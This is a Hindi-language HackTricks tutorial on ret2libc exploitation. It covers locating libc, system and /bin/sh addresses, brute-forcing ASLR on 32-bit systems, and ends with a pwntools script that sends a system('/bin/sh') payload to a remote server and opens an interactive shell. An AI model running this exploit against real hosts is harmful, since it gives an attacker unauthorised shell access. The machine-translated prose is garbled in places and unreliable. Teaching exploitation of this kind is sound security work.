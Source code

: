 # Ret2lib

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## **मूल जानकारी**

**Ret2Libc** का सार है किसी भी वंशावली प्रोग्राम के निष्क्रिय करने की प्रवृत्ति को एक साझा पुस्तकालय (जैसे **system**, **execve**, **strcpy**) के एक फ़ंक्शन पर पुनर्निर्देशित करना है बजाय अटैकर द्वारा प्रदान किए गए शेलकोड को स्टैक पर निष्पादित करने की। अटैकर एक पेलोड बनाता है जो स्टैक पर वापसी पता संशोधित करता है ताकि इच्छित पुस्तकालय फ़ंक्शन पर पहुंचे, साथ ही कॉलिंग कन्वेंशन के अनुसार आवश्यक तरीके से सेट किए गए किसी भी आवश्यक तर्कों के लिए भी व्यवस्थित करता है।

### **उदाहरण कदम (सरलिकृत)**

* कॉल करने के लिए फ़ंक्शन का पता प्राप्त करें (जैसे सिस्टम) और कॉल करने के लिए कमांड (जैसे /bin/sh)
* पहले तर्क को पास करने के लिए एक ROP श्रृंखला उत्पन्न करें जो कमांड स्ट्रिंग पर पहुंचने वाला पहला तर्क और फ़ंक्शन को निष्पादन करने के लिए निर्देशन वाहक को पारित करने के लिए हैं

## पतों का पता लगाना

* मान लेते हैं कि `libc` जो वर्तमान मशीन में उपयोग किया जाता है, वह यहाँ मेमोरी में लोड होगा:
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

यदि आप जांचना चाहते हैं कि ASLR libc के पते को बदल रहा है तो आप यह कर सकते हैं:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* जानते हुए कि कौन सी libc का उपयोग किया गया है, `system` फ़ंक्शन के ऑफसेट को ढूंढना भी संभव है:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* जानते हुए कि कौन सी libc का उपयोग किया गया है, इससे `/bin/sh` फ़ंक्शन के लिए ऑफ़सेट ढूंढना भी संभव है:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### जीडीबी-पीडा / जीईएफ का उपयोग

लिबसी का पता लगाने के बाद, **system** फ़ंक्शन, **exit** फ़ंक्शन और स्ट्रिंग **`/bin/sh`** का पता लगाने के लिए Peda या GEF का उपयोग भी संभव है:
```
p system
p exit
find "/bin/sh"
```
### /proc/\<PID>/maps का उपयोग

यदि प्रक्रिया हर बार जब आप इसके साथ बात करते हैं **बच्चे** बना रही है (नेटवर्क सर्वर), तो उस फ़ाइल को **पढ़ने** का प्रयास करें (संभावना है कि आपको रूट होने की आवश्यकता होगी)।

यहाँ आपको प्रक्रिया के अंदर **सटीक रूप से कहाँ लोड हो रहा है libc** और **प्रत्येक प्रक्रिया के बच्चों के लिए कहाँ लोड होने जा रहा है** यह मिल सकता है।

![](<../../../../.gitbook/assets/image (95).png>)

इस मामले में यह **0xb75dc000** में लोड हो रहा है (यह libc का आधार पता होगा)

## अज्ञात libc

संभावना है कि आपको पता नहीं हो कि बाइनरी कौन सा libc लोड कर रहा है (क्योंकि यह एक सर्वर में स्थित हो सकता है जिसमें आपका कोई पहुंच नहीं है)। उस मामले में आप दुरुपयोग कर सकते हैं विकल्प को **कुछ पते चिढ़ाने और पता लगाने के लिए कौन सा libc** पुस्तकालय उपयोग किया जा रहा है:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

और आप इसके लिए pwntools टेम्पलेट पा सकते हैं:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## 32 बिट में ASLR को छलना

ये ब्रूट-फोर्सिंग हमले **केवल 32 बिट सिस्टम के लिए** उपयोगी हैं।

* यदि एक्सप्लॉइट स्थानीय है, तो आप libc का आधार पता लगाने के लिए ब्रूट-फोर्स करने का प्रयास कर सकते हैं (32 बिट सिस्टम के लिए उपयोगी):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* यदि आप एक दूरस्थ सर्वर पर हमला कर रहे हैं, तो आप **`libc` फ़ंक्शन `usleep`** का पता लगाने के लिए **10 (उदाहरण के लिए) के तर्क को बुर्ट-फ़ोर्स कर सकते हैं। यदि किसी समय सर्वर **10 सेकंड अतिरिक्त समय लेता है** तो आपने इस फ़ंक्शन का पता लगा लिया है।

## एक गैजेट

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib कोड उदाहरण

इस उदाहरण में ASLR बुर्ट-फ़ोर्स कोड में एकीकृत किया गया है और वंशावली बाइनरी एक दूरस्थ सर्वर पर स्थित है:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib कोड उदाहरण

निम्नलिखित से उदाहरण देखें:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (या puts)

इससे **प्रक्रिया से जानकारी लीक करने** की अनुमति होती है, `printf`/`puts` को कुछ विशिष्ट डेटा के साथ एक तरह से कॉल करके।

## Ret2printf

यह मुख्य रूप से एक **Ret2lib का दुरुपयोग करना है ताकि इसे `printf` फॉर्मेट स्ट्रिंग जोखिम बनाने** के लिए `ret2lib` का उपयोग करके `printf` को एक्सप्लॉइट करने के लिए मानों को कॉल करने के लिए (यह बेकार लग सकता है लेकिन संभव है):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

